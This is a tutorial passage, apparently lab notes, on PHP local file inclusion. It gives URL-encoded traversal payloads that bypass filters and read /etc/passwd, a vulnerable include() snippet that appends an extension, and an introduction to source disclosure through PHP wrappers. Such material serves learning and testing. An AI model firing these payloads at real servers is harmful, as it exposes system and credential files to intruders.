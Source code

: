 
Bypass with URL Encoding
========================

On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters `../` can be URL encoded into `%2e%2e%2f`,
which will bypass the filter.

In the last example `....//` can be URL encoded into `%2e%2e%2e%2e%2f%2f`.

so now the payload with url encoded look like this

payload:

```
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
```

example: 

`http://example.com/basic/index.php?language=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd`

LFI with Appended Extension
===========================

Scripts can manually append a `.php` or any other required extension before including the file, which serves as mitigation against the inclusion of arbitrary files.

php code: `include($_GET['language'] . ".php");`

The files for this section are present in the LFI_extension folder. Let's try including `/etc/passwd` again.

`http://example.com/basic/index.php?language=/etc/passwd`

The result looks like this 

`http://example.com/basic/index.php?language=/etc/passwd.php`



Source Code Disclosure via PHP Wrappers
=======================================

In this scenario, our only option is to include PHP files and find sensitive information or vulnerabilities in the source code. Such files can be found by performing a brute
force against the webserver for files with a .php extension, using tools such as gobuster, dirbuster, or dirsearch. Direct inclusion of these PHP files won't return anything,
as the server will execute it as code. For example, consider a file named config.php, which is present on the server.

`http://example.com/basic/index.php?language=config`

Resut not show by this because they use this as server execute it as code

PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found here.

`https://www.php.net/manual/en/wrappers.php.php`
